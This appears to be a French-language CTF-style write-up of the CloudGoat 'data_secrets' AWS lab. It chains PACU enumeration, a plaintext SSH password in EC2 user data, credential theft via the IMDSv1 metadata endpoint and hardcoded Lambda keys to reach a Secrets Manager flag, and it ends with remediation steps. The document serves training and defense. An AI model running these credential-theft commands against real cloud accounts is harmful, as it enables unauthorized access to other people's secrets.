







## Contexte

Dans ce scénario, on démarre avec les credentials d'un utilisateur AWS ultra-restreint. Pas d'accès IAM, pas de Secrets Manager, pas de S3. Rien.

L'objectif : récupérer un secret stocké dans AWS Secrets Manager en enchaînant plusieurs vecteurs d'attaque. C'est le genre de scénario qu'on retrouve dans de vraies missions de pentest cloud, pas une vulnérabilité unique, mais une **chaîne** où chaque étape ouvre la suivante.

## Setup

### 1. Déployer le scénario

```bash
cloudgoat create data_secrets
```

CloudGoat génère l'infra et fournit une Access Key + Secret Key.

### 2. Configurer le profil AWS CLI

```bash
aws configure --profile datas
# AWS Access Key ID: <fourni par CloudGoat>
# AWS Secret Access Key: <fourni par CloudGoat>
# Default region: us-east-1
```

### 3. Vérifier l'authentification

```bash
aws sts get-caller-identity --profile datas
```

```json
{
    "UserId": "AIDAWOH3NR54ZSQ5CFF6M",
    "Account": "442908905337",
    "Arn": "arn:aws:iam::442908905337:user/cg-start-user-cgidm9npvt0fyi"
}
```

On est `cg-start-user`. Un user avec quasiment aucune permission visible. La suite va être cocasse.

## Phase attaque

### Étape 1 : Enumération avec PACU

On lance PACU et on crée une session dédiée :

```
pacu
# Session name : data_secrets
import_keys datas
```



Premier réflexe : voir ce que ce user peut faire.

```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
```



`MISSING REQUIRED AWS PERMISSIONS` partout. Ce user ne peut même pas lire ses propres policies IAM. PACU est limité ici, on change d'approche.

On essaie l'énumération EC2 :

```
run ec2__enum --regions us-east-1
```

```
1 total instance(s) found.
1 total public IP address(es) found.
```

Une instance EC2 avec une IP publique. On note deux détails dans les métadonnées :

- **IP publique** : `32.192.37.251`
- **MetadataOptions** : `HttpTokens: optional` : IMDSv1 activé *(on y reviendra)*

### Étape 2 : User Data : le mot de passe en clair

Le User Data c'est un script qui s'exécute au démarrage d'une instance EC2 pour l'initialiser. Il est lisible par quiconque a `ec2:DescribeInstanceAttribute` une permission très courante.

On récupère l'instance ID depuis PACU :

```
data ec2
# InstanceId: i-048e2769d30579338
```

On télécharge le User Data :

```
run ec2__download_userdata --instance-ids i-048e2769d30579338@us-east-1
```

```bash
cat ~/.local/share/pacu/data_secrets/downloads/ec2_user_data/i-048e2769d30579338.txt
```

```bash
#!/bin/bash
echo "ec2-user:CloudGoatInstancePassword!" | chpasswd
sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/g' /etc/ssh/sshd_config
service sshd restart
```

Credentials SSH en clair dans le User Data. `ec2-user` / `CloudGoatInstancePassword!`.

> **Leçon :** Le User Data est lisible par n'importe qui ayant `ec2:DescribeInstanceAttribute`. Ne jamais y mettre de credentials, même "temporairement". La bonne pratique : utiliser AWS Secrets Manager et faire lire le secret par l'instance au démarrage via son rôle IAM.

### Étape 3 : SSH + vol de credentials via IMDS

On se connecte :

```bash
ssh ec2-user@32.192.37.251
# Password: CloudGoatInstancePassword!
```



On est sur l'instance. Elle a un **IAM Instance Profile** attaché : un rôle IAM avec des credentials temporaires exposés via l'**IMDS** (Instance Metadata Service), une API interne à l'adresse `169.254.169.254`.

On récupère le nom du rôle :

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# cg-ec2-role-cgidm9npvt0fyi
```

On vole les credentials temporaires du rôle :

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgidm9npvt0fyi
```

```json
{
    "AccessKeyId": "ASIA***************",
    "SecretAccessKey": "************************************",
    "Token": "IQoJb3JpZ2luX2VjE...",
    "Expiration": "2026-05-02T22:28:37Z"
}
```

> **Leçon :** IMDSv1 n'exige aucune authentification. Si une appli sur l'instance est vulnérable à une SSRF, un attaquant externe peut voler ces credentials sans jamais avoir accès SSH. IMDSv2 corrige ça en exigeant un token préalable.

On configure le profil avec les credentials volés (le `Token` est obligatoire pour les rôles) :

```bash
aws configure --profile ec2-role
aws configure set aws_session_token "IQoJb3Jp..." --profile ec2-role
```



L'ARN `assumed-role/cg-ec2-role` confirme qu'on utilise les credentials volés via IMDS. On a pivoté du user de départ vers le rôle EC2.

### Étape 4 : Lambda : clés hardcodées dans les variables d'environnement

Avec le rôle EC2 on peut énumérer les Lambda :

```bash
aws lambda list-functions --region us-east-1 --profile ec2-role
```

```json
{
    "FunctionName": "cg-lambda-function-cgidm9npvt0fyi",
    "Environment": {
        "Variables": {
            "DB_USER_ACCESS_KEY": "AKIA***************",
            "DB_USER_SECRET_KEY": "************************************"
        }
    }
}
```

Des clés AWS hardcodées en clair dans les variables d'environnement de la Lambda. Lisibles par quiconque peut appeler `lambda:ListFunctions`.

> **Leçon :** Une Lambda n'a jamais besoin de clés AWS dans ses variables d'environnement. Elle a déjà un rôle IAM d'exécution, elle peut accéder directement aux services AWS via ce rôle. Les env vars c'est pour la config applicative, pas pour les credentials.

### Étape 5 : Flag final : Secrets Manager

On configure le profil avec les clés récupérées dans la Lambda :

```bash
aws configure --profile user-db
# Access Key ID: AKIA***************
# Secret Access Key: ************************************
```

On liste les secrets disponibles :

```bash
aws secretsmanager list-secrets --region us-east-1 --profile user-db
```



On récupère la valeur :

```bash
aws secretsmanager get-secret-value \
  --secret-id cg-final-flag-cgidm9npvt0fyi \
  --region us-east-1 \
  --profile user-db
```



**Flag : `d4t4_s3cr3ts_4r3_fun`**

## Chaîne d'attaque complète

```
cg-start-user
    → ec2:DescribeInstanceAttribute
    → User Data (SSH creds en clair)
    → SSH sur l'instance
    → IMDS (IMDSv1, pas d'auth)
    → Credentials temporaires du rôle EC2
    → lambda:ListFunctions
    → Clés AWS dans les env vars Lambda
    → secretsmanager:GetSecretValue
    → Flag
```

Cinq étapes. Chaque vulnérabilité seule serait presque anodine. Ensemble elles forment une chaîne complète de compromission.

## Remédiation

### Vulnérabilité 1 : Credentials dans le User Data

**Réponse immédiate** verrouiller le compte SSH depuis l'instance :

```bash
ssh ec2-user@32.192.37.251
sudo passwd -l ec2-user
```

```bash
ssh ec2-user@32.192.37.251
# Permission denied
```

**Correction long terme** stocker le secret dans Secrets Manager et le lire au démarrage via le rôle IAM de l'instance :

```bash
aws secretsmanager create-secret \
  --name "ec2-ssh-password" \
  --secret-string '{"password":"MonMotDePasse"}' \
  --region us-east-1 \
  --profile cloudgoat
```

```bash
#!/bin/bash
PASSWORD=$(aws secretsmanager get-secret-value \
  --secret-id ec2-ssh-password \
  --query SecretString \
  --output text | python3 -c "import sys,json;print(json.load(sys.stdin)['password'])")
echo "ec2-user:$PASSWORD" | chpasswd
```

### Vulnérabilité 2 : IMDSv1 activé

Forcer IMDSv2 sur l'instance :

```bash
aws ec2 modify-instance-metadata-options \
  --instance-id i-048e2769d30579338 \
  --http-tokens required \
  --region us-east-1 \
  --profile cloudgoat
```



L'ancienne attaque ne reçoit plus aucune réponse. IMDSv2 exige désormais un token :

```bash
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgidm9npvt0fyi \
  -H "X-aws-ec2-metadata-token: $TOKEN"
```

### Vulnérabilité 3 : Clés AWS hardcodées dans les env vars Lambda

Supprimer les variables d'environnement :

```bash
aws lambda update-function-configuration \
  --function-name cg-lambda-function-cgidm9npvt0fyi \
  --environment '{"Variables":{}}' \
  --region us-east-1 \
  --profile cloudgoat
```

```bash
aws lambda get-function-configuration \
  --function-name cg-lambda-function-cgidm9npvt0fyi \
  --query 'Environment' \
  --region us-east-1 \
  --profile cloudgoat
# null
```

**Correction long terme** donner au rôle d'exécution Lambda la permission de lire directement le secret dans Secrets Manager. Zéro clé hardcodée, zéro env var sensible.

## Bilan

| Vulnérabilité | Impact | Remédiation |
|---|---|---|
| Credentials dans User Data | SSH sur l'instance | Secrets Manager + rôle IAM |
| IMDSv1 activé | Vol de credentials de rôle | Forcer IMDSv2 |
| Clés hardcodées dans Lambda | Accès Secrets Manager | Rôle IAM d'exécution |

Ce scénario illustre un principe fondamental : **en cloud, les mauvaises pratiques s'enchaînent**. Chaque vulnérabilité prise isolément semblerait acceptable. Ensemble elles forment un chemin d'attaque complet vers la donnée sensible.

Pour un autre exemple de chaîne courte mais efficace, voir [SNS Secrets](/posts/writeup-sns-secrets/) — un topic SNS mal configuré qui expose une clé d'API en trois étapes.

*Scénario réalisé avec [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) de RhinoSecurityLabs.*
